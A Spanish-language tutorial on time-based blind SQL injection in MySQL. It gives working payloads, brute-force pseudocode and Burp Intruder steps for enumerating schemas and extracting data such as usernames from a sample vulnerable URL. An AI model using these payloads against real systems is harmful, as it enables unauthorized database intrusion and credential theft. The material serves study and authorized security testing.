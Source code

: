 # Blind SQL Injection - Time-Based — Enumeración completa y extracción de datos

Cuando una inyección SQL no devuelve resultados visibles pero provoca **diferencias en el tiempo de respuesta**, usamos técnicas **Time-Based Blind SQLi** para extraer datos de forma indirecta.

Consiste en usar funciones como `SLEEP(n)` y condicionales `IF(...)` para provocar un retraso si una condición es verdadera. Si el servidor se **retrasa varios segundos**, sabemos que la condición se cumplió.

---

## 🧩 Paso 1: Extraer nombres de bases de datos

Se usa la siguiente consulta, carácter a carácter:

```sql
' AND IF(ASCII(SUBSTRING((SELECT schema_name FROM information_schema.schemata LIMIT N,1), pos, 1)) = X, SLEEP(5), 0) -- -
```

**Donde:**

- `N` es el índice de la base de datos (`0`, `1`, `2`, ...)
- `pos` es la posición del carácter dentro del nombre (`1`, `2`, `3`, ...)
- `X` es el código ASCII que se prueba (`32` a `126`)

🔁 Para extraer los nombres de bases de datos:
1. Se recorre `N` para ver cada base de datos (`LIMIT N,1`)
2. Se recorre `pos` desde 1 para cada carácter
3. Se prueba cada `X` del 32 al 126
4. Si el servidor **tarda 5 segundos**, el carácter es correcto

---

## 🏗️ Paso 2: Extraer nombres de tablas de una base de datos

Para la base de datos `admin`, usamos:

```sql
' AND IF(ASCII(SUBSTRING((SELECT table_name FROM information_schema.tables WHERE table_schema='admin' LIMIT N,1), pos, 1)) = X, SLEEP(5), 0) -- -
```

---

## 🧱 Paso 3: Extraer nombres de columnas de una tabla

Para la tabla `users` en la base de datos `admin`:

```sql
' AND IF(ASCII(SUBSTRING((SELECT column_name FROM information_schema.columns WHERE table_schema='admin' AND table_name='users' LIMIT N,1), pos, 1)) = X, SLEEP(5), 0) -- -
```

---

## 🗄️ Paso 4: Extraer datos de una columna

Ya que conocemos las columnas (`username`, `password`, etc.), ahora queremos los valores reales:

```sql
' AND IF(ASCII(SUBSTRING((SELECT username FROM admin.users LIMIT N,1), pos, 1)) = X, SLEEP(5), 0) -- -
```

📌 **Resumen de qué se está extrayendo:**

| Lo que se extrae           | Consulta usada dentro del `SUBSTRING(...)`                           |
|----------------------------|------------------------------------------------------------------------|
| Base de datos 2            | `(SELECT schema_name FROM information_schema.schemata LIMIT 1,1)`     |
| Tabla 3 de 'admin'         | `(SELECT table_name FROM information_schema.tables WHERE table_schema='admin' LIMIT 2,1)` |
| Columna 2 de 'users'       | `(SELECT column_name FROM information_schema.columns WHERE table_schema='admin' AND table_name='users' LIMIT 1,1)` |
| Dato de la columna         | `(SELECT username FROM admin.users LIMIT 0,1)`                        |

---

## 🔁 Ejemplo de iteración en pseudocódigo

```python
for N in range(0, total_filas):
    resultado = ""
    pos = 1
    while True:
        encontrado = False
        for X in range(32, 127):
            payload = f"' AND IF(ASCII(SUBSTRING((SELECT username FROM admin.users LIMIT {N},1), {pos}, 1)) = {X}, SLEEP(5), 0) -- -"
            if respuesta_tarda(payload):  # Función que detecta si la respuesta tarda 5 segundos
                resultado += chr(X)
                pos += 1
                encontrado = True
                break
        if not encontrado:
            break
    print(f"[{N}] Resultado: {resultado}")
```

---

## 🔬 Ejemplo práctico en Burp Suite (Intruder)

### Supongamos esta URL vulnerable:

```
http://victima.com/perfil.php?id=1
```

### 1️⃣ Insertamos payload:

```
http://victima.com/perfil.php?id=1' AND IF(ASCII(SUBSTRING((SELECT username FROM admin.users LIMIT 0,1), 1, 1)) = §X§, SLEEP(5), 0) -- -
```

### 2️⃣ En Intruder:

- Marca `§X§` como payload
- Tipo: Número, Rango del 32 al 126 (ASCII imprimible)
- Usa "Sniper" o "Pitchfork"
- En "Options" activa "Timeouts" y revisa el tiempo de respuesta

### 3️⃣ Observa:

- Si X = 97 y la respuesta tarda 5 segundos → primer carácter es `'a'`
- Repite hasta tener el string completo

---

## ✅ Resumen final

- El enfoque `Time-Based` es útil cuando no hay respuesta visible.
- Se basa en que el servidor **tarda si una condición es cierta**.
- Puedes extraer:
  - Bases de datos
  - Tablas
  - Columnas
  - **Y datos reales**
- Siempre se usa:
  - `IF(...)`
  - `SLEEP(n)`
  - `SUBSTRING(...)`
  - `ASCII(...)`
  - `LIMIT N,1` para iterar

---

Este método funciona en cualquier punto vulnerable de la URL o parámetros (GET o POST), y puede automatizarse con scripts o herramientas como Burp Intruder, sqlmap (con `--technique=T`), etc.

